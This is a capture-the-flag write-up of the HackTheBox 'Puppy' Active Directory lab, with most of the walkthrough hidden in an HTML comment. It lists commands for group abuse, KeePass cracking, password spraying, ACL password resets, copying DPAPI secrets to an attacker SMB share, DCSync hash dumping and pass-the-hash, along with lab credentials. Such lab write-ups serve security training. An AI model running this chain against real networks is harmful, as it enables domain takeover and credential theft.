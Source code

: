 # Puppy
```
Difficulty: Medium
Operating System: Windows
Hints: True
```

### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
|:---|:---|:---|:---|
| 1 | `levi.james` | Nmap, `rpcclient`, `smbmap`, BloodHound | Initial enumeration of open ports, user accounts, and shares. Identified a restricted `DEV` share. |
| 2 | `levi.james` | `bloodyAD` (Group Membership) | Added `levi.james` to the `DEVELOPERS` group, gaining access to the `DEV` share. |
| 3 | `levi.james` | SMB, KeePass Brute-Force | Downloaded a `recovery.kdbx` file from the `DEV` share and used a brute-force attack to crack the password (`liXXXXool`). |
| 4 | (Local) | KeePass Extraction | Extracted various credentials, including passwords for `ant.edwards` (`AnXXXX25!`) and `steph.cooper` (`ChXXXXXX25!`). |
| 5 | `ant.edwards` | `netexec` (Password Spray) | Verified that `ant.edwards` and the cracked password were valid credentials. |
| 6 | `ant.edwards` | BloodHound (ACL Analysis) | Used BloodHound to discover an ACL misconfiguration giving `ant.edwards` full control over the `adam.silver` user object. |
| 7 | `ant.edwards` | `bloodyAD` (Password Reset) | Attempted to reset `adam.silver`'s password, but the account was disabled. |
| 8 | `ant.edwards` | `ldapsearch`, `ldapmodify` | Used LDAP tools to re-enable `adam.silver`'s account. |
| 9 | `adam.silver` | `Evil-WinRM`, SMB | Logged in as `adam.silver` via WinRM and downloaded a `site-backup-2024-12-30.zip` file from the host. |
| 10 | (Local) | File Analysis | Discovered the password for `steph.cooper` in the site backup file. |
| 11 | `steph.cooper` | `Evil-WinRM`, `impacket-smbserver`, `impacket-dpapi` | Connected via WinRM, used a malicious SMB server to retrieve DPAPI data, and then used `impacket-dpapi` to decrypt the master key and extract the credentials for `steph.cooper_adm`. |
| 12 | `steph.cooper_adm` | `impacket-secretsdump` (DCSync) | Exploited the `steph.cooper_adm` credentials, which had DCSync privileges, to dump NTLM hashes for all domain accounts, including the `Administrator`. |
| 13 | `Administrator` | `Evil-WinRM` (Pass-the-Hash) | Used the `Administrator`'s NTLM hash with a pass-the-hash attack via `Evil-WinRM` to gain a privileged shell and retrieve the final flag. |


#### Nmap Scan
First, we perform an Nmap scan to identify open ports and services on the target puppy.htb.

Bash
```
nmap puppy.htb -sV
```
The scan reveals several open ports, including 53 (DNS), 88 (Kerberos), 135 (MSRPC), 139 (NetBIOS), 389 (LDAP), 445 (SMB), and 5985 (WinRM HTTP), indicating a Windows Active Directory environment.

Enumerating Users with rpcclient
Using the provided levi.james credentials, we attempt to enumerate domain users via rpcclient.

Bash
```
rpcclient 10.xx.xx.xx -U levi.james
```
After authenticating, we use enumdomusers to list users:

rpcclient $> enumdomusers
This successfully lists several users, including Administrator, Guest, krbtgt, levi.james, ant.edwards, adam.silver, jamie.williams, steph.cooper, and steph.cooper_adm.

SMB Share Enumeration with smbmap
Next, we use smbmap to enumerate accessible SMB shares on the target.

Bash
```
smbmap -H 10.xx.xx.xx -u levi.james -p 'KingofAkron2025!'
```
The output shows several shares. Notably, the DEV share is listed but currently inaccessible with NO ACCESS. We also see IPC$, NETLOGON, and SYSVOL with READ ONLY permissions.

Bloodhound for Initial Reconnaissance
To understand the Active Directory structure and identify potential attack paths, we'll use BloodHound. Before running BloodHound, we add dc.puppy.htb to /etc/hosts and synchronize the time.

Bash
```
ntpdate puppy.htb
```
Then, we collect data with bloodhound-python:

Bash
```
bloodhound-python -u 'levi.james' -p 'KingofAkron2025!' -d puppy.htb -ns 10.xx.xx.xx -c All --zip
```
![Shares](Pictures/HTB_Puppy_ADHR.png)

Gaining Access to the DEV Share

![Access](Pictures/HTB_Puppy_ADHR_Dev.png)

**Access Restricted by HackTheBox Rules**

<!--

Analyzing the BloodHound data, we find that the levi.james user has write permissions to the DEVELOPERS group. This is a crucial finding, as gaining membership in this group might grant access to the DEV share.

We use bloodyAD to add levi.james to the DEVELOPERS group:

Bash
```
bloodyAD --host '10.xx.xx.xx' -d 'dc.puppy.htb' -u 'levi.james' -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
```
With levi.james added to the DEVELOPERS group, we can now access the DEV share using smbclient.

Bash
```
smbclient //10.xx.xx.xx/DEV -U levi.james
```
Listing the contents of the DEV share, we find recovery.kdbx, which appears to be a KeePass database.

Privilege Escalation (KeePass Brute-Force)
We've found a KeePass database, which likely contains valuable credentials. Our next step is to brute-force its password.

Cracking recovery.kdbx
We first try to use keepass2john to convert the .kdbx file into a hash format suitable for John the Ripper, but it reports an unsupported file version.

Bash
```
keepass2john recovery.kdbx
```
Instead, we turn to r3nt0n/keepass4brute, a tool specifically designed for KDBX 4.x formats. We use it with the rockyou.txt wordlist.

Bash
```
./keepass4brute.sh ../recovery.kdbx /usr/share/wordlists/rockyou.txt
```
The brute-force is successful, and the password for recovery.kdbx is found to be **liv....ol**.

Extracting Credentials from KeePass
We open recovery.kdbx using keepassxc and extract several password values:

HJ...025!

Antma...25!

JamieL..e2025!

IL...25!

St.....25!

Privilege Escalation (Credential Reuse & Account Manipulation)
With a list of new passwords, we can attempt to reuse them against various user accounts to gain higher privileges.

Password Spraying with netexec
We perform a password spray attack using netexec against the identified usernames and the extracted passwords.

Bash

```
netexec smb 10.xx.xx.xx -u usernames.txt -p pass.txt
```
The password spray reveals a successful login: ant.edwards/Antman2025!.

Bloodhound with ant.edwards
We collect BloodHound data again, this time with the newly compromised ant.edwards credentials.

Bash
```
bloodhound-python -u 'ant.edwards' -p 'Antman2025!' -d puppy.htb -ns 10.xx.xx.xx -c All --zip
```
Analysis of the BloodHound results indicates that the group ant.edwards is a member of has full control over the adam.silver user object. This is a significant finding, as it allows us to reset adam.silver's password.

Resetting adam.silver's Password
We use bloodyAD to change adam.silver's password.

Bash
```
bloodyAD --host '10.xx.xx.xx' -d 'dc.puppy.htb' -u 'ant.edwards' -p 'Antman2025!' set password ADAM.SILVER Abc123456!
```
Although the password change is reported as successful, we are unable to log in with adam.silver.

Enabling adam.silver's Account
We investigate the adam.silver account using ldapsearch to determine why login is failing.

Bash
```
ldapsearch -x -H ldap://10.xx.xx.xx -D "ANT.EDWARDS@PUPPY.HTB" -W -b "DC=puppy,DC=htb" "(sAMAccountName=ADAM.SILVER)"
```
The output reveals userAccountControl: 66050, which signifies that the account is disabled.

To enable the account, we modify the userAccountControl attribute using ldapmodify. The value 66048 represents an enabled account.

Bash
```
ldapmodify -x -H ldap://10.xx.xx.xx -D "ANT.EDWARDS@PUPPY.HTB" -W << EOF
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 66048
EOF
```
![Flag](Pictures/HTB_PUPPY_USER.png)
### Privilege Escalation (Backup Files & DPAPI)

With adam.silver's account now enabled, we can proceed to look for further privilege escalation opportunities.

Investigating Backups
We connect to the target using evil-winrm with adam.silver's credentials.

Bash
```
evil-winrm -i 10.xx.xx.xx -u 'ADAM.SILVER' -p 'Abc123456!'
```


Once connected, we check the C:\Backups directory and find a site-backup-2024-12-30.zip file.

PowerShell
```
ls C:\Backups
```
We download the backup file to our Kali machine.

PowerShell
```
download site-backup-2024-12-30.zip
```
Upon decompressing the zip file, we discover nms-auth-config.xml.bak, which contains the credentials for steph.cooper: Chef......025!.

Bash
```
cat nms-auth-config.xml.bak
```
Bloodhound with steph.cooper
We collect BloodHound data again using steph.cooper's credentials.

Bash
```
bloodhound-python -u 'steph.cooper' -p 'ChefSteph2025!' -d puppy.htb -ns 10.xx.xx.xx -c All --zip
```
The BloodHound results don't immediately reveal any obvious paths to domain administrator. This suggests a different approach might be needed.

DPAPI Decryption
Recalling a previously seen DPAPI blob on adam.silver's desktop, we decide to investigate steph.cooper's DPAPI credentials. Windows Credential Manager stores credentials encrypted with DPAPI, which requires the user's master key.

We locate the DPAPI credentials and master key blobs for steph.cooper.

PowerShell
```
dir -h C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials
dir -h C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107
```
Direct download of these files may cause issues, so we set up an impacket-smbserver on our Kali machine to receive the files.

Bash
```
impacket-smbserver share ./share -smb2support
```
Then, from the evil-winrm shell, we copy the masterkey_blob and credential_blob to our SMB share.

PowerShell
```
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" \\10.10.16.75\share\masterkey_blob
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" \\10.10.16.75\share\credential_blob
```
Now, we use impacket-dpapi to decrypt the master key using steph.cooper's password and SID.

Bash
```
impacket-dpapi masterkey -file masterkey_blob -password 'Ch......2025!' -sid S-1-5-21-1487982659-...........-2281216199-1107
```
This command outputs the decrypted master key.

Finally, we use the decrypted master key to decrypt the credential_blob, which reveals the plaintext credentials.

Bash
```
impacket-dpapi credential -file credential_blob -key 0xd9a5707.....................91b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```
This successfully extracts the password for steph.cooper_adm: FivethC..........2025!.

Domain Dominance
We now have the credentials for steph.cooper_adm, which is a likely candidate for a highly privileged account.

Bloodhound with steph.cooper_adm
We run BloodHound one last time with the steph.cooper_adm credentials.

Bash
```
bloodhound-python -u 'steph.cooper_adm' -p 'Fiveth.............025!' -d puppy.htb -ns 10.xx.xx.xx -c All --zip
```
While the BloodHound output might not immediately show a direct path, the name steph.cooper_adm strongly suggests administrative privileges.

DCSync with impacket-secretsdump
Given the administrative nature of steph.cooper_adm, we attempt a DCSync attack using impacket-secretsdump to extract NTLM hashes of all domain accounts, including the Administrator account.

Bash
```
impacket-secretsdump 'puppy.htb/steph.cooper_adm:Fivet................2025!'@10.xx.xx.xx
```
This command successfully dumps the NTLM hashes for all domain users, including the Administrator account.

Final Access as Administrator
With the Administrator NTLM hash, we can now use evil-winrm to gain a shell as the Administrator and retrieve the root.txt flag.

Bash
```
evil-winrm -i 10.xx.xx.xx -u 'Administrator' -H '<HIDDEN_ADMIN_HASH>'
cd ../desktop
cat root.txt
```
![Flag](Pictures/HTB_PUPPY_ROOT.png)
Once connected, navigate to the desktop and retrieve the flag
This completes the penetration test, gaining full control of the domain.



-->


**Pwned! Puppy**



